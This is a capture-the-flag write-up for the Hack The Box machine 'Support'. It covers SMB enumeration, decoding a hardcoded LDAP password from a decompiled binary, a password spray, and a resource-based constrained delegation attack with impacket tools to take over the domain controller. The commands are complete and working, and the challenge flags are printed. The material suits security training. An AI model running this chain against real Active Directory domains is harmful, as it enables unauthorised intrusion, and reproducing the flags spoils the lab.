

---

````markdown
# 🧑‍💻 Hack The Box – Support

## 📌 Overview
- **Machine Name:** Support
- **IP Address(es):** 10.10.11.174
- **Difficulty:** Easy
- **OS:** Windows
- **Tags:** SMB / Active Directory / LDAP / Reverse Engineering / RBCD
- **Date Completed:** 2025.08.29
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon
### Nmap
```zsh
nmap -sC -sV -oA nmap/support 10.10.11.174
````

```
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-29 08:08:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Findings:**

* 389/tcp → LDAP
* 139/tcp → SMB (guest access enabled)

### SMB Enumeration

```bash
nxc smb support.htb -u 'a' -p '' --shares
```

```
support-tools   READ
```

```bash
smbclient //support.htb/support-tools -U 'Guest'
```

```
UserInfo.exe.zip
```

* Discovered a readable share with an unusual application: **UserInfo.exe**.

---

## 🔍 Reverse Engineering UserInfo.exe

Decompiling revealed LDAP credentials:

```csharp
public LdapQuery()
{
    string password = Protected.getPassword();
    this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
    this.entry.AuthenticationType = AuthenticationTypes.Secure;
    this.ds = new DirectorySearcher(this.entry);
}
```

The password was obfuscated:

```csharp
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

### Decoding

```py
import base64

enc = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

cipher = base64.b64decode(enc)
plain = bytes([c ^ key[i % len(key)] ^ 223 for i, c in enumerate(cipher)])

print(plain.decode())
```

Decoded password:

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

### Credential Validation

```zsh
nxc ldap support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

```
[+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

* Valid domain credentials obtained.

---

## 🧭 BloodHound

Collected domain data:

```zsh
rusthound-ce -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -o bloodhound --ldap-filter='(objectGuid=*)' -c All
```

* Nothing interesting for `ldap` user.

---

## 🗂️ LDAP Enumeration

Custom LDAP enumeration found a suspicious `info` field:

```json
"ford.victoria": {
  "info": "Ironside47pleasure40Watchful"
}
```

* Initially appeared to be credentials for `ford.victoria`, but login attempts failed.
* Enumerated all domain users and built a wordlist.

---

## 🔑 Exploitation – Foothold

Brute-forced with known password string:

```zsh
nxc smb support.htb -u usernames.txt -p 'Ironside47pleasure40Watchful' --continue-on-success
```

```
[+] support.htb\support:Ironside47pleasure40Watchful
```

### Shell Access

```zsh
evil-winrm -i support.htb -u 'support' -p 'Ironside47pleasure40Watchful'
```

```
*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
c2ee84b4277d7cab7ea5ae7d9bc1d5bc
```

* **Result:** User shell obtained.

---

## 🚀 Privilege Escalation

### BloodHound Enumeration

* `support` user → member of **SHARED SUPPORT ACCOUNTS** group
* This group has **GenericAll** on `DC.support.htb` computer object.



### Exploit: Resource-Based Constrained Delegation (RBCD)

1. Add attacker-controlled computer:

```zsh
impacket-addcomputer -method SAMR -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host DC.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```

2. Configure delegation:

```zsh
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

3. Request TGT as Administrator:

```zsh
getST.py -spn cifs/DC.support.htb -impersonate Administrator support.htb/ATTACKERSYSTEM$:'Summer2018!' -dc-ip DC.support.htb
```

4. Pass-the-ticket with PsExec:

```zsh
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass support.htb/Administrator@DC.support.htb
```

```
C:\Windows\system32> whoami
nt authority\system
```

* **Result:** Full SYSTEM access (Domain Admin).

---

## 🏁 Flags

* **User.txt:** `c2ee84b4277d7cab7ea5ae7d9bc1d5bc`
* **Root.txt:** `ae1605fecb42f57a3d34817e12d24252`

---

## 🧠 Lessons Learned

* **Technical:**

  * Reverse engineering revealed hardcoded service account credentials.
  * LDAP info fields may leak sensitive data (poor OPSEC).
  * RBCD remains a powerful AD privilege escalation vector.

* **Personal:**

  * Always test leaked creds against multiple accounts.
  * Automating LDAP parsing speeds up discovery of hidden values.

* **Reusable Techniques:**

  * Decode obfuscation (base64 + XOR).
  * Use BloodHound to identify misconfigurations.
  * Exploit RBCD for Domain Admin when `GenericAll` on DC computer object.

---

````

---
````
